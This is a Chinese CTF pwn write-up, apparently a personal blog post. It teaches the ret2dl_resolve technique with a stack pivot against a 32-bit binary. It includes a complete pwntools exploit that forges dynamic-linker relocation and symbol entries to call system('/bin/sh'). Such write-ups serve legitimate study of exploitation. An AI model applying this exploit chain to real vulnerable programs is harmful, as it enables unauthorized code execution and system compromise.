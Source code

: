 ﻿---
title: ret2dlrsvl
date: 2018-08-28 00:00:00
categories:
- CTF/Pwn
tags:  Pwn
---
# ret2dl_resolve 学习



补习了一下栈的知识，看了一下最难的利用方式，发现还是有好多要学习的地方
ret2dlresolve主要就是在没有libc的时候，利用动态延迟绑定来进行利用的一种手法
总体来说比较麻烦，需要阅读源码理解
这里写一下总体的思路
首先程序调用系统函数的时候调用系统函数时先找plt，plt里面有一个偏移的index，之后跳到got表中执行，在这里会进行一堆操作，而且参数是基于栈传递的，这就说明如果我们控制了栈内的参数就可以在调用系统函数时做文章
这里贴一个参考[链接][1]


漏洞利用方式主要就是：
1.控制eip为PLT[0]的地址，只需传递一个index_arg参数
2.控制index_arg的大小，使reloc的位置落在可控地址内
3.伪造reloc的内容，使sym落在可控地址内
4.伪造sym的内容，使name落在可控地址内
5.伪造name为任意库函数，如system
源程序里栈的溢出字节很小，所以不能把整个payload写进去
```
    ssize_t vuln()
    {
      char buf; // [esp+Ch] [ebp-6Ch]
    
      setbuf(stdin, &buf);
      return read(0, &buf, 0x100u);
    }
```
这里只能溢出0x30字节，所以需要栈转移（stack pivot）这一手法
目的是将栈地址搞到一个可控的地址去，一般是堆或者bss段，涉及到的指令（gadget）是pop ebp ret以及 leave ret（pop esp当然也可以，不过很难找）
leave这一指令作用就是：mov esp ebp；pop ebp
pop ebp之后在执行leave就实现栈转移了
而后就是设置一堆字段的值
首先我们要知道plt[0]的地址，在ida里面看到前缀.plt那里就是plt的地址
而后需要知道rel.plt的地址，在ida里面找到ELF JMPREL Relocation Table
之后是dynsym（ELF Symbol Table）以及dynstr（ELF String Table）
有了这些地址之后就可以构造伪造的地址以及一些dl-runtime的参数
在构造的时候注意一些字段需要对齐
具体的构造方式见exp
exp：
```python
    from pwn import *
    context.log_level = 'debug'
    io = process('./bof')
    #libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    elf = ELF('bof')
    
    write_got = elf.got['write']
    read_got = elf.got['read']
    write_plt = elf.plt['write']
    read_plt = elf.plt['read']
    pop_esi_edi_ebp_ret = 0x08048619
    pop_ebp_ret = 0x0804861b
    leave_ret = 0x08048458  #mov esp ebp
    						#pop ebp
    bss = 0x804A040
    stack = 0x800
    stack_base = bss + stack
    
    io.recvline()
    
    payload = 'A' * 0x70
    payload += p32(read_plt)
    payload += p32(pop_esi_edi_ebp_ret)
    payload += p32(0)
    payload += p32(stack_base)
    payload += p32(100)
    payload += p32(pop_ebp_ret)
    payload += p32(stack_base)
    payload += p32(leave_ret)
    io.sendline(payload)
    
    plt_0 = 0x8048380
    #write_offset = 0x20	# ida .plt:0x80483D6
    rel_plt = 0x8048330	# ida  ELF JMPREL Relocation Table
    				   	# objdump -s -j .rel.plt bof
    index_offset = (stack_base + 28) -rel_plt
    					#fake reloc now in stack_base + 28
    #r_info = 0x607		#ida  ELF JMPREL Relocation Table
    dynsym = 0x80481D8	# ELF Symbol Table
    dynstr = 0x8048278	# ELF String Table
    fake_sym_addr = stack_base + 36
    align = 0x10 - ((fake_sym_addr - dynsym) & 0xf)
    fake_sym_addr = fake_sym_addr + align
    index_dynsym = (fake_sym_addr - dynsym) / 0x10
    r_info = (index_dynsym << 8) | 0x7
    fake_reloc = p32(write_got)+p32(r_info)
    st_name = (fake_sym_addr + 0x10) - dynstr	#0x10 is len(fake_sym)
    					#  ELF Symbol Table shift + e
    fake_sym = p32(st_name) + p32(0) + p32(0) + p32(0x12) 
    cmd = '/bin/sh'
    
    payload2 = 'AAAA' #ebp
    payload2 += p32(plt_0)
    payload2 += p32(index_offset)
    payload2 += 'AAAA'#ret addr
    #payload2 += p32(1)
    payload2 += p32(stack_base+80)
    payload2 += 'aaaa'
    payload2 += 'aaaa'
    #payload2 += p32(len(cmd))
    payload2 += fake_reloc
    payload2 += 'B'	* align
    payload2 += fake_sym
    payload2 += 'system\x00'
    payload2 += 'A' * (80 - len(payload2))
    payload2 += cmd + '\x00'
    payload2 += 'A' * (100 - len(payload2))
    io.sendline(payload2)
    
    io.interactive()
```
[参考链接][2]


  [1]: http://www.inforsec.org/wp/?p=389
  [2]: http://pwn4.fun/2016/11/09/Return-to-dl-resolve/